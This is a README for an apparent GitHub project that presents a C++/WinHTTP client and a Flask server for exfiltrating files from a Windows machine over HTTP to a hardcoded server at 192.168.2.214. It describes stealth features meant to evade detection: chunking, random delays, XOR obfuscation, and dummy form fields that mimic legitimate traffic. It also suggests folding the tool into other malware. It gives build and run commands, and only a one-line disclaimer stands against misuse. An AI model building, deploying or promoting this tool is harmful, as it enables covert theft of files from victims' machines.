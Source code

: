 # File Exfiltration Tool

## Overview
This project is to demonstrate a data exfiltration feature written in C++ with a Python-based server for a penetration testing engagement. This tool can also be intergrated into other malware funcitonalities. The tool allows you to exfiltrate files from a client machine to a remote server over HTTP, with options for chunking, delays, and type-specific processing. The tool supports various file types (e.g., `.txt`, `.png`, `.docx`, `.pdf`), with image files transferred without encryption for direct usability, while other types are XOR-encrypted for basic obfuscation.

### Features:
- File type detection and processing (e.g., no encryption for images).
- Optional chunking to split large files into smaller pieces.
- Optional random delays between chunks for stealth.
- Base64 encoding for HTTP transmission.
- Dummy form fields to mimic legitimate traffic.
- Simple Python Flask server to receive and reassemble files.

> **Disclaimer:** Unauthorized use for malicious purposes is illegal and unethical. I hold no responsibility for any misuse.

## Prerequisites

### Client (C++)
- **Operating System:** Windows (uses WinHTTP API).
- **Compiler:** MSVC (e.g., `cl` via Visual Studio) or MinGW (e.g., `g++`).
- **Libraries:** WinHTTP (included with Windows).

### Server (Python)
- **Operating System:** Any (tested on VM Windows/MacOS).
- **Python:** 3.6+.
- **Dependencies:** Flask (`pip install flask`).
- **Network:** Server must be reachable on port 80 (configurable).

## Setup

### Client

#### Clone the Repository:
```bash
git clone https://github.com/yourusername/file-exfiltration-tool.git
cd file-exfiltration-tool
```

#### Compile the C++ Code:

Using MSVC:
```bash
cl client.cpp /link winhttp.lib
```
Using MinGW:
```bash
g++ client.cpp -o client.exe -lwinhttp
```
**Output:** `client.exe`.

### Server

#### Install Dependencies:
```bash
pip install flask
```

#### Run the Server:
![MacOS screenshot](Images/MacOS.png)

1. Save the Python script as `app.py`.
2. Start it on the target machine (e.g., `192.168.2.214`):
   ```bash
   python server.py
   ```
3. Ensure port `80` is open and the server is reachable.

## Usage
![VM Windows screenshot](Images/VM_Windows.png)

### Client
Run the compiled executable with the following syntax:
```bash
client.exe <file_path> [-c] [-d]
```
- `<file_path>`: Path to the file to exfiltrate (e.g., `image.png`, `doc.docx`).
- `-c`: Enable chunking (splits file into 1024-byte pieces).
- `-d`: Enable random delays (1–5 seconds between chunks, requires `-c`).

#### Examples:
Transfer a PNG file as a single piece:
```bash
client.exe image.png
```
Transfer a text file in chunks with delays:
```bash
client.exe notes.txt -c -d
```

**Output:**
- Logs bytes read, sent, and server response status.
- Success message: `"Data sent successfully to 192.168.2.214."`

### Server
- The server listens on `0.0.0.0:80` and saves received files as `exfiltrated_data.<ext>` (e.g., `exfiltrated_data.png`).
- Logs chunk reception and final file size.

#### Example Output:
```
Received chunk 1 of 3, size: 1368 bytes
Received chunk 2 of 3, size: 1368 bytes
Received chunk 3 of 3, size: 500 bytes
File fully received and saved as exfiltrated_data.png, size: 3236 bytes
```

## File Type Handling
- **Images** (`.png`, `.jpg`, `.jpeg`, `.bmp`): Transferred unencrypted.
- **Text** (`.txt`), **Office** (`.docx`, `.xlsx`), **PDF** (`.pdf`): XOR-encrypted with key `"mysecretkey"`.
- **Other Types**: Default to XOR encryption, saved with `.bin` extension if no extension is detected.

## Notes
- **Server IP:** Hardcoded to `192.168.2.214:80`. Modify `server_host` and `server_path` in `client.cpp` for a different target.
- **Chunk Size:** Fixed at `1024` bytes when chunking is enabled. Adjust `chunk_size` in `client.cpp` as needed.
- **Security:** XOR encryption is basic and not secure for real-world use; consider stronger methods for production.

## Troubleshooting
- **Empty Output File:** Check client/server logs for size mismatches or errors (e.g., `"WinHttpSendRequest failed: 12029"` = server unreachable).
- **Network Issues:** Ensure the server is running and reachable (`ping 192.168.2.214`, `telnet 192.168.2.214 80`).
- **Corrupted Images:** Verify original file integrity; test without chunking (`client.exe image.png`).

## Contributing
Feel free to fork this repository and submit pull requests with improvements (e.g., stronger encryption, more file type processors, configuration options).
